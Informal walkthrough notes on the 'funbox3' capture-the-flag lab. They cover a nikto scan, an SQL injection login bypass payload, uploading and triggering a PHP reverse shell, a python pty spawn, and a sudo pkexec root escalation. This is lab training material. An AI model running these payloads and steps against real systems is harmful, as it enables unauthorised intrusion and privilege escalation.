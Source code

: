 When i  did the the search on the server, it is important to make a search on /robots.txt... manually it's doesnt necesary to make a dirsearch or dirbuster .. we can do it manually

The guy said that it is important to make an " inmigration " and he is using a tool called NIKTO

sudo nikto -h http://192.168.0.31 #nikto

```
+ Multiple index files found: /index.php, /index.html.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /admin/: This might be interesting.
+ /secret/: This might be interesting.
+ /store/: This might be interesting.
+ /admin/index.php: This might be interesting: has been seen in web logs from an unknown scanner.
+ 8103 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2023-07-26 20:41:04 (GMT2) (30 seconds)
---------------------------------------------------------------------------
```

in the /admin/ we have a CRM loggin (Costumer Relationship Manadgement)

i logged in with

A simple SQL injection

admin' or '1'='1'#

In a url of the pages we have this

```
http://192.168.0.31/admin/quote-details.php?id=11
```
an url where we can search directorys

But this guy is saying that we must use #burpsuit to manage the packets sended because of the "ID on the php search" 
The reason of using burpsuit , he said that we can make an sql injection. 
WE NEED TO DUMP SOME CREDENTIALS FROM THE DATABASe

and.. now he is saying this is not the way... we must search on the "store" directory.
We can log us on this page without credentials.. just with "admin"






WE CAN ADD BOOKS AND ARCHIVES.. so we are going to try to put a reverse shell.php on it

we inserted it on the  "...ad a new book" but... how we can execute it ?

going to the directory on the browser... and just going in to it we have the reverse shell.. 

http://192.168.0.32/store/bootstrap/img/php-reverse-shell.php

obviously you need to listen first on the port with netcat

now we import this because the console have python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")' 

we are in a folder of tony ... and we found a password.txt
and now we log with su -tony , and then the password

sudo -l gives us this

```
tony@funbox3:~$ sudo -l
sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
```

it is good to watch on https://gtfobins.github.io/ and you can see if some of this commands helps you to get in on 

and !! this is the command 

sudo /usr/bin/pkexec /bin/sh 

so we can now find the root flag.